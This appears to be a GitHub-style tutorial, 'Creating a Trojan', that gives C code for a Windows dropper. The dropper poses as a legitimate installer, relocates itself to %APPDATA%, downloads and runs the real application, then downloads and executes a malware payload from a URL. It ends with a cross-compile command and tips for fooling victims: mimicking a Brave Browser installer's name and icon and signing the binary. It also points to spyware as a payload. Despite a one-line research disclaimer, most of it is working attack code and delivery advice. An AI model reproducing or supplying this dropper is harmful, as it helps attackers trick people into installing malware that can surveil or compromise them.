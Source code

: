 # Creating a Trojan

## DISCLAIMER: This project was made for research purposes. Anything you do with this code is on you and is not my responsibility.

The main basis of this article will be to bundle a legitimate application with a malicious one. Here are the steps we will go through:
1. Code a dropper that will drop both the legitimate application & the malicious one. 
2. The dropper will then copy itself to another directory to hide it & then the dropped malicious application will overwrite & delete the dropper.

Let's start with defining the needed parameters for this function:

* legitimate_app  -> this is our legitimate application's file name to drop on the victim's machine
* legitimate_app_URL -> this is our legitimate application's URL to download it from
* malware_URL -> this is our malicious application's URL to download it from
* malware_app -> this is our malicious application's file name to drop on the victim's machine
* dropper_new_name -> this is the new name of our dropper. At first, our dropper will be masked to look like the legitimate application, but when it's executed, it will download the legitimate application & replace the dropper. This means we will have to move our dropper to a new location and give it a new name


Now, let's defining some variables we will be using when downloading & grabbing the legitimate application:

```
TCHAR current_dir[MAX_PATH]

TCHAR current_file[MAX_PATH]

TCHAR new_dir[MAX_PATH]
```
* current_dir will be used to grab the current directory & append the legitimate_app string to the end of it to build the location to drop the legitimate piece of software.
* current_file will store the current directory & name of the dropper. This will be the first parameter of the **MoveFileA** function
* new_dir will be used to build the location where the dropper will be moved to. This will be the 2nd parameter of the **MoveFileA** function

```
GetCurrentDirectory(MAX_PATH, current_dir);

strcat_s(current_dir, strlen(current_dir)+strlen(legitimate_app)+1, legitimate_app);

GetModuleFileNameA(NULL, current_file, MAX_PATH);

GetEnvironmentVariable("APPDATA", new_dir, MAX_PATH);

strcat_s(new_dir, strlen(new_dir)+strlen(dropper_new_name)+1,dropper_new_name);

int mresult = MoveFileA(current_file, new_dir);
```

1. This will store the current directory in current_dir 
2. This will concatenate the legitimate_app variable (the legitimate application's filename) to the current_dir variable
3. This will get the full path of the current running process & store it in current_file
4. This will grab the path of the environment variable "APPDATA" & store it in new_dir
5. the dropper's new file name is then concatenated to the new_dir variable
6. Then we move the dropper to the new directory which is %APPDATA% & rename it to whatever dropper_new_name is set to

```
HRESULT filedl = URLDownloadToFile(NULL, legitimate_app_URL, current_dir, 0, NULL);

if (filedl == S_OK) {

	HINSTANCE result = ShellExecuteA(NULL, "open", current_dir, NULL, NULL, 0);

}

else {
	
	printf("[!] Error with download\n");

}
```

Here we are simply downloading the legitimate application from the legitimate_app_URL variable & saving it to wherever current_dir points to. If the download is successful, we execute the legitimate software.

Now onto the next part of the code, downloading the malware & executing it.

The only variable we define here is:
`TCHAR maldir[MAX_PATH];`
which will be used to store the full directory of the malware being dropped.

```
GetEnvironmentVariable("APPDATA", maldir, MAX_PATH);

strcat_s(maldir, strlen(maldir)+strlen(malware_app)+1, malware_app);
```

1. Grabbing environment variable of APPDATA & storing it in maldir
2. Appending the desired file name of the malware that gets dropped to the maldir variable, creating a full path

```
HRESULT maldl = URLDownloadToFile(NULL, malware_URL, maldir, 0, NULL);

if (maldl == S_OK) {

	printf("[+] Successfully downloaded main malware\n");
    
    	HINSTANCE result2 = ShellExecuteA(NULL, "open", maldir, NULL, NULL, 0);
    
    	exit(0);
}

else {

	printf("[!] Error downloading main malware\n");

}
```

This is a repeat of earlier code, we're simply downloading the malware from the URL stored in malware_URL & saving it to the path stored in maldir. If the download succeeds, we execute it & then exit the dropper.

The "malware" we download here simply overwrites the dropper & deletes it, but we can drop more malicious malware such as installing (spyware)[https://github.com/1d8/spybrowse] on a victim's machine.

## Cross-Compilation
`x86_64-w64-mingw32-gcc input.c -o output.exe -lurlmon`

Before delivering your dropper to your victim, be sure to rename it to the legitimate application's name. For example, if you were to have it masquerade as a Brave Browser installer, name the dropper file BraveBrowserSetUp.exe & change the icon of it to match the original. You can also sign the executable as well with a valid certificate to make the dropper less suspicious.
